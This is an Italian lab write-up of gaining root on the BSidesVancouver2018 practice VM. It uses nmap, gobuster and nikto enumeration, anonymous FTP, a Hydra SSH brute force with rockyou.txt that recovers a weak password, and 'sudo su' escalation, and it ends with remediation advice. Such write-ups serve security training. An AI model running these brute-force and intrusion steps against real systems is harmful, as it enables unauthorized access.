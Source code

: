 
# 🔒 **Penetration Test Report - BSidesVancouver2018 VM**

---

## 🔍 **Obiettivo**
L'obiettivo era ottenere l'accesso **root** sulla macchina virtuale **BSidesVancouver2018**, partendo dalla scoperta dell'IP, enumerando i servizi esposti, sfruttando vulnerabilità e tecniche di brute-force.

---

## 🛠️ **Strumenti Utilizzati**
- **Nmap**: Scansione delle porte e dei servizi.
- **Gobuster**: Enumerazione directory HTTP.
- **Nikto**: Scansione vulnerabilità HTTP.
- **FTP**: Accesso anonimo.
- **Hydra**: Brute-force SSH.
- **Metasploit**: Tentativi di exploit per FTP.
- **Rockyou.txt**: Dizionario di password comuni.

---

## 📊 **1. Scoperta dell'IP del Target**
Utilizzando **nmap** per una scansione sulla rete locale, abbiamo identificato l'indirizzo IP del target:
```bash
sudo nmap -sn 192.168.1.0/24
```
**IP rilevato**: `192.168.1.63`

---

## 📈 **2. Scansione delle Porte e dei Servizi**
Eseguita una scansione dettagliata con **Nmap**:
```bash
sudo nmap -sS -sV -O 192.168.1.63
![sudonmap](./sudonmap.png) 
![sudonmap](./sudonmapportespecifiche.png) 

```
### **Risultati**:
| 🔗 Porta | ⚡ Servizio | 🔎 Versione            |
|-------|----------|---------------------|
| 21/tcp  | FTP      | vsftpd 2.3.5         |
| 22/tcp  | SSH      | OpenSSH 5.9p1 (Debian 7.10) |
| 80/tcp  | HTTP     | Apache 2.2.22 (Ubuntu)|

---

## 🌐 **3. Enumerazione HTTP (Porta 80)**

1. Visitando la pagina principale HTTP, abbiamo trovato un **WordPress obsoleto**.

2. **Enumerazione directory** con Gobuster:
   ```bash
   gobuster dir -u http://192.168.1.63 -w /usr/share/wordlists/dirb/common.txt
   ```
   **Risultati**:
   - `/robots.txt`
   - `/backup_wordpress/`


3. **Nikto Scan**:
   ```bash
   nikto -h http://192.168.1.63
   ```
   **Vulnerabilità riscontrate**:
   - **Apache 2.2.22 obsoleto**
   - Directory e file esposti (`robots.txt`, `/backup_wordpress/`).

![niktio](./niktio.png) 
---
![gobuster](./gobuster.png)
![backupwordpress](./backupwordpress.png) 
## 🌐 **4. Accesso FTP (Porta 21)**

Accesso anonimo abilitato:
```bash
ftp 192.168.1.63
Username: anonymous
Password: <blank>
```

### **File trovato**:
- **users.txt.bk**
```bash
cat users.txt.bk
```
**Output**:
```
abatchy
john
mai
anne
doomguy
```
![getuserstxt](./getuserstxt.png) 
---

## 🛡️ **5. Tentativi di Exploit e WordPress Login**
![john](./john.png) 
![login](./login.png) 
1. **Accesso WordPress** con credenziali dell'utente `john`
2. Tentativo di caricare una **reverse shell** tramite plugin fallito.

3. **Scansione OpenSSH**:
   ```bash
   searchsploit openssh 5.9
   ```
   Nessun exploit diretto per RCE, ma tool utili per enumerazione utenti.
![searchexploit](./searchexploit.png)
 ---

## 🛡️ **6. Brute-Force SSH con Hydra**
![rockyou](./rockyou.png)
Sfruttando il file `users.txt.bk` e il dizionario `rockyou.txt`, abbiamo effettuato un attacco brute-force:
```bash
hydra -l anne -P /usr/share/wordlists/rockyou.txt -t 64 -V ssh://192.168.1.63
```
![hydrafinal](./hydrafinal.png)
### **Risultato**:
- 🔑 **Username**: `anne`
- 🔐 **Password**: `princess`

---
![princes](./princes.png)
## 🔧 **7. Accesso SSH e Privilege Escalation**

1. Connessione SSH con le credenziali trovate:
   ```bash
   ssh anne@192.168.1.63
   Password: princess
   ```

2. Verifica privilegi sudo:
   ```bash
   sudo su
   ```
   **Risultato**: Accesso root ottenuto con successo.

---

## 💰 **Risultato Finale**
Accesso **root** completato. Verifica effettuata con:
```bash
whoami
id
```
![rootfinale](./rootfinale.png)
---

## ⚙️ **Conclusioni**
Il test è stato completato con successo grazie a:
1. **Scansione Nmap** per individuare i servizi.
2. **Enumerazione** di WordPress e FTP.
3. **Brute-force SSH** con Hydra utilizzando credenziali deboli.
4. **Privilege Escalation** con `sudo su`.

---

## ✅ **Raccomandazioni**
1. **Aggiornare i servizi obsoleti**:
   - OpenSSH e Apache.
2. **Disabilitare l'accesso FTP anonimo**.
3. **Implementare chiavi SSH** invece di password semplici.
4. **Proteggere file di backup** come `users.txt.bk`.

---
![exploitmetasploit](./exploitmetasploit.png)
